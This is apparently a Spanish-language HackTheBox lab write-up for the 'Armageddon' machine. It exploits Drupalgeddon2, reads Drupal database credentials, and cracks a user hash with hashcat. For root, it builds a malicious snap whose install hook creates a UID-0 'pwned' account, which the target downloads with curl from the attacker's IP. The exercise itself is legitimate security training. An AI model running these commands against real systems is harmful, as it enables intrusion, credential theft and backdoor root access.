-----------------
# Descripcion

**Armageddon** es una máquina Linux de dificultad fácil en HackTheBox centrada en la explotación web y la escalada de privilegios mediante configuraciones incorrectas.
El vector de acceso inicial aprovecha una versión desactualizada de Drupal 7 vulnerable a ejecución remota de comandos (*Drupalgeddon2* / CVE-2018-7600), otorgando una shell básica como el usuario del servicio web. Tras enumerar las credenciales en los archivos de configuración para acceder a la base de datos MySQL, se extrae y descifra el hash de un usuario del sistema para pivotar vía SSH. Finalmente, la escalada a `root` se consigue abusando de privilegios `sudo` sobre `snap`, instalando un paquete malicioso que ejecuta código privilegiado.

------------------

# Reconocimiento

## Nmap

> Iniciamos con un escaneo inicial con `nmap` para identificar puertos abiertos en el objetivo:

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.48.89
```



> A continuación, ejecutamos scripts por defecto y detección de versiones contra los puertos identificados:

```bash
nmap -p22,80 -sC -sV 10.129.48.89
```



## WEB
Analizamos las tecnologías del servidor web mediante `whatweb`:

```bash
whatweb http://armageddon.htb
```



Inspeccionamos la aplicación web directamente desde el navegador:



> Confirmamos la presencia del gestor de contenidos `Drupal`. Revisando el archivo `robots.txt`, descubrimos varias rutas y directorios de interés:







> Al consultar `CHANGELOG.txt`, identificamos la versión exacta en uso: `Drupal 7.56`.



# Shell como apache

## Drupalgeddon

> Esta versión es vulnerable a ejecución remota de comandos (RCE) conocida como **Drupalgeddon2** (CVE-2018-7600). Clonamos y preparamos el exploit para obtener acceso inicial:

```
https://github.com/dreadlocked/drupalgeddon2
```

> Ejecutamos el exploit apuntando al host objetivo:

```bash
$ ./drupalgeddon2.rb [http://armageddon.htb](http://armageddon.htb)
```



---

# Shell como brucetherealadmin

## MYSQL

> Obtenemos una sesión de comandos en el contexto del usuario del servicio web (`apache`). Procedemos a listar los usuarios con directorio home e intérprete de comandos válido:

```bash
$ ls -la /home
$ cat /etc/passwd | grep "sh"
```



> Destaca el usuario `brucetherealadmin`. Con el objetivo de localizar credenciales, comprobamos los puertos en escucha a nivel interno y observamos el servicio MySQL activo en el puerto `3306`:

```bash
$ netstat -tunl
```



> En Drupal, las credenciales de conexión a la base de datos se almacenan en `sites/default/settings.php`:

```bash
$ cat sites/default/settings.php
```



```plaintext
user: drupaluser
pass: CQHEy@9M*m23gBVj
```

> Con estas credenciales, interactuamos con el cliente `mysql` para listar las bases de datos disponibles:

```bash
$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'show databases;'
```



> Listamos las tablas dentro de la base de datos `drupal`:

```bash
$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal; show tables;'
```



> Consultamos los registros de la tabla `users`:

```bash
$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal; select * from users;'
```



> Recuperamos el hash correspondiente al usuario de interés:

```plaintext
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

> Este hash corresponde al algoritmo de derivación de claves de Drupal 7 (`Drupal7 SHA512`). Empleamos `hashcat` con el modo `7900` y el diccionario `rockyou.txt` para descifrarlo:

```bash
$ hashcat -m 7900 hash.txt /usr/share/wordlists/rockyou.txt
```



> Hash crackeado exitosamente. Las credenciales obtenidas son:

```plaintext
user: brucetherealadmin
pass: booboo
```

Iniciamos sesión vía SSH con el usuario validado:



---

# Shell como root

## Snap

> Una vez dentro como `brucetherealadmin`, auditamos los privilegios `sudo`:

```bash
$ sudo -l
```



> Disponemos de privilegios para ejecutar `/usr/bin/snap install *` como root. Consultando `GTFOBins`, verificamos que es posible abusar del hook `install` en un paquete `.snap` malicioso para ejecutar comandos arbitrarios con privilegios elevados:

```
[https://gtfobins.org/gtfobins/snap/](https://gtfobins.org/gtfobins/snap/)
```



> En nuestra máquina atacante preparamos la estructura del paquete Snap. Como alternativa a modificar permisos SUID sobre `/bin/bash`, optamos por definir la creación directa de un usuario con privilegios de root (`UID 0`):

```bash
❯ mkdir -p meta/hooks

❯ echo -e '#!/bin/bash\n/usr/sbin/useradd -p $(openssl passwd -1 password123) -u 0 -o -s /bin/bash -m pwned' > meta/hooks/install

❯ chmod +x meta/hooks/install

❯ fpm -n test -s dir -t snap -a all meta
```

> Levantamos un servidor HTTP rápido con Python para transferir el artefacto:

```bash
$ python3 -m http.server 80
```

> Desde la máquina víctima, descargamos el paquete `.snap`:

```bash
$ curl http://10.10.14.154/test_1.0_all.snap -o test_1.0_all.snap
```

> Instalamos el paquete abusando del permiso `sudo` con los parámetros `--dangerous` y `--devmode` para ejecutar el hook:

```bash
$ sudo snap install test_1.0_all.snap --dangerous --devmode
```



> Comprobamos que el usuario se ha incorporado correctamente al sistema:



> Cambiamos al nuevo usuario `pwned` con la contraseña configurada (`password123`) para obtener acceso administrativo total:

